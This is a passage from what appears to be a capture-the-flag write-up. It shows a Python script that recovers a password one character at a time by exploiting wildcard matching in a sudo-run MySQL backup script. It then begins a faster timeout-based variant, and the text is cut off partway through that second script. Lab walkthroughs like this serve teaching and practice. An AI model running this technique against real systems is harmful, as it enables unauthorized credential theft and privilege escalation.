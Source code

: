 

Putting that together, I can write a Python script that will try all
characters to find the password:



    #!/usr/bin/env python3

    import subprocess
    import string

    leaked_password = ""

    while True:
        for c in string.printable[:-5]:
            if c in '*\\%':
                continue
            print(f"\r{leaked_password}{c}", flush=True, end="")
            result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
            if "Password confirmed" in result.stdout.decode():
                leaked_password += c
                break
        else:
            break
    print(f'\r{leaked_password}        ')



Running this takes 35-40 seconds, and finds the password:

![](/img/brute-password-1.gif)

I can make this faster. It hangs each time it finds the correct password
because the process on success takes longer to run. What if I give
`subprocess.run` a timeout? I'll have to assume that any time it hits
the timeout, it's because the password was accepted:



    #!/usr/bin/env python3

    import subprocess
    import string

    leaked_password = ""

